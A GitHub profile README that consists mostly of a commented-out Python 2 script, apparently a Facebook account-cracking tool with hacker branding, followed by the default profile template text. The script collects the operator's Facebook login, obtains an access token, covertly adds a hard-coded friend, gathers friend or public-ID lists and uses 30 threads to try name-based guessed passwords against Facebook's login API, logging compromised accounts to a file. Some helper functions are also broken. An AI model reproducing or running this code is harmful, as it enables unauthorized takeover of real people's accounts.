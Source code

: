 ### Hi there 👋

<!--import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
 

br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Mozilla/5.0 (Linux; Android 8.1.0; Chrome/79.0.3945.116) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.116 Mobile Safari/537.36')]
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]


def keluar():
	print "\033[1;96m[!] \x1b[1;91mExit"
	os.sys.exit()
def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')
def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
##### LOGO #####
logo = """
   Asif Javed
   ▄︻̷̿┻̿═━一
   THE ANONYMOUS lovehacker TRICKER 
   THE LEGEND ℒℴνℯ
   THE GAME CHANGER ℒℴνℯ
   sheroz jutt
   ℒℴνℯ ▄︻̷̿┻̿═━一
\033[1;91m=======================================
\033[1;96mAuthor  \033[1;93m: \033[1;92msheroz
\033[1;96mYouTube \033[1;93m: \033[1;92mPakistani Hackers
\033[1;96mGitHub  \033[1;93m: \033[1;92mhttps://github.com/lovehacker/love
\033[1;96mBlogger \033[1;93m: \033[1;92mhttps://www.facebook.com/lovehacker
\033[1;91m======================================="""
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print logo
		print("\r\033[1;96m \x1b[1;93mSedang masuk \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1)
back = 0
berhasil = []
cekpoint = []
oks = []
id = []
listgrup = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"
os.system("clear")
print "\033[1;96m ========================================="
print  """\033[1;91m=======================================
\033[1;96mAuthor  \033[1;93m: \033[1;92mlove
\033[1;96mYouTube \033[1;93m: \033[1;92mlovehacker
\033[1;96mGitHub  \033[1;93m: \033[1;92mhttps://github.com/lovehacker/love
\033[1;96mpage \033[1;93m: \033[1;92mhttps://www.facebook.com/lovehacker
\033[1;91m======================================="""
print " \x1b[1;93m============================================================="
CorrectUsername = Sherozjutt
CorrectPassword = maha9866
loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;96m \x1b[1;93mUsername Of Tool \x1b[1;96m>>>> ")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;96m \x1b[1;93mPassword Of Tool \x1b[1;96m>>>> ")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username
            loop = 'false'
        else:
            print "Wrong Password"
            os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
    else:
        print "Wrong Username"
        os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		print('\033[1;96m\x1b[1;93mLOGIN WITH FACEBOOK \x1b[1;96m' )
		id = raw_input('\033[1;96m \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m')
		pwd = raw_input('\033[1;96m \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;96m \x1b[1;91mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m\x1b[1;92mLogin Successful'
				os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m \x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m \x1b[1;91mIt seems that your account has a checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m \x1b[1;91mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[1;96m \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;96m \033[1;91mIt seems that your account has a checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\033[1;96m \x1b[1;91mThere is no internet connection"
		keluar()
	os.system("clear")
	print logo
	print 42*"\033[1;96m="
	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m               "
	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start CLONING WITH DJ"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit            "
	pilih()
def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
	if unikers =="":
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih()
def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"
	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"
	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"
	pilih_super()
def pilih_super():
	peak = raw_input("\n\033[1;97m >>> \033[1;97m")
	if peak =="":
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		idt = raw_input("\033[1;96m \033[1;93mEnter ID \033[1;91m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;96m \x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		jalan('\033[1;96m \033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		try:
			idlist = raw_input('\x1b[1;96m \x1b[1;93mEnter File Path  \x1b[1;91m: \x1b[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;96m \x1b[1;91mFile Not Found'
			raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;96m \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;96m \033[1;93mStarting \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('khan123')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name']+'Ali123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '987654'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = 'Pakistan'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + 'qwertyuiop'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + 'Hacker123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '456456'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;96m="
	print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;96m[+] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt")
	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
	menu()
if __name__ == '__main__':
	login()

**Sherozjutt/sherozjutt** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
